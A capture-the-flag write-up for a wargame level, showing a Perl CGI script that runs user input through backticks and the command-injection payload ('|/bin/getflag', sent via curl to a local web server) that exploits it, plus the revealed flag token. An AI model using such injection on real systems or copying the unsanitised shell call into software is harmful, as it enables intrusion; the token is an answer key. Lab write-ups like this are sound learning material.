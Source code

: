 # level04

```bash
~$ ls
level04.pl

~$ cat ./level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

~$ ./level04.pl x='lol'
Content-type: text/html

lol

~$ ./level04.pl x='|/bin/getflag'
Nope there is no token here for you sorry. Try again :)
```

At this point, we know what the exploit is and we can execute `getflag` through the zombie program.

But `getflag` isn't being executed by the right user, httpd needs to execute it ;)

```bash
curl 'http://localhost:4747/?x=|/bin/getflag'
# -> Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

